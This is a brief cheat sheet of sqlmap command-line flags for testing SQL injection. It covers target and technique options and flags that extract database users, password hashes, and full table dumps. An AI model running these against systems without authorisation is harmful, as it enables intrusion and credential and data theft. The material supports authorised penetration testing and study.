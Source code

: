 # Sqlmap

# Basic Arguments for SQLmap

## Generic

```bash
-u "<URL>"
-p "<PARAM TO TEST>"
--user-agent=SQLMAP
--random-agent
--threads=10
--risk=3 #MAX
--level=5 #MAX
--dbms="<KNOWN DB TECH>"
--os="<OS>"
--technique="UB" #Use only techniques UNION and BLIND in that order (default "BEUSTQ")
--batch #Non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--auth-type="<AUTH>" #HTTP authentication type (Basic, Digest, NTLM or PKI)
--auth-cred="<AUTH>" #HTTP authentication credentials (name:password)
--proxy=PROXY

```

## Retrieve Information

### Internal

```bash
--current-user #Get current user
--is-dba #Check if current user is Admin
--hostname #Get hostname
--users #Get usernames od DB
--passwords #Get passwords of users in DB

```

### DB Data

```bash
--all #Retrieve everything
--dump #Dump DBMS database table entries
--dbs #Names of the available databases
--tables #Tables of a database ( -D <DB NAME> )
--columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
-D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump column

```
